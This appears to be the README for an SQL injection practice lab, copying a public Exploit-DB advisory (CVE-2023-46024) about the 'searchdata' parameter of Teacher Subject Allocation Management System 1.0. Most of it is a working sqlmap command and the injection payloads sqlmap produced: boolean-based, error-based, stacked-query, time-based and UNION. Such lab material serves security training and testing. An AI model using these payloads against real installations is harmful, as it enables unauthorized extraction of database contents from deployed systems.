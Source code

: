 # Explanation
This SQLi Playground comes from the exploit located at https://www.exploit-db.com/exploits/51914

# Exploit Content
## Exploit Title: Teacher Subject Allocation Management System 1.0 - 'searchdata' SQLi
## Date: 2023-11-15
## Exploit Author: Ersin Erenler
## Vendor Homepage: https://phpgurukul.com/teacher-subject-allocation-system-using-php-and-mysql
## Software Link: https://phpgurukul.com/?sdm_process_download=1&download_id=17645
## Version: 1.0
## Tested on: Windows/Linux, Apache 2.4.54, PHP 8.2.0
## CVE : CVE-2023-46024

-------------------------------------------------------------------------------

## Description:

Teacher Subject Allocation Management System V1.0 is susceptible to a significant security vulnerability that arises from insufficient protection on the 'searchdata' parameter in the index.php file. This flaw can potentially be exploited to inject malicious SQL queries, leading to unauthorized access and extraction of sensitive information from the database.

Vulnerable File: /index.php

Parameter Name: searchdata

## Proof of Concept:
----------------------

Execute sqlmap using either the 'searchdata' parameter to retrieve the current database:

sqlmap -u "http://localhost/Tsas" --method POST --data "searchdata=test&search=" -p searchdata --risk 3 --level 3 --dbms mysql --batch --current-db

SQLMap Response:
----------------------
---
Parameter: searchdata (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: searchdata=test%' AND 3912=3912 AND 'qxHV%'='qxHV&search=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: searchdata=test%' AND (SELECT 1043 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(1043=1043,1))),0x717a787171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'kewe%'='kewe&search=

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: searchdata=test%';SELECT SLEEP(5)#&search=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchdata=test%' AND (SELECT 8862 FROM (SELECT(SLEEP(5)))GqzT) AND 'wylU%'='wylU&search=

    Type: UNION query
    Title: Generic UNION query (NULL) - 15 columns
    Payload: searchdata=test%' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170706a71,0x784e7a47626a794a74456975444c5a4c64734556414658476e75684c4a716f6173724b6b6a685163,0x717a787171)-- -&search=
---
            
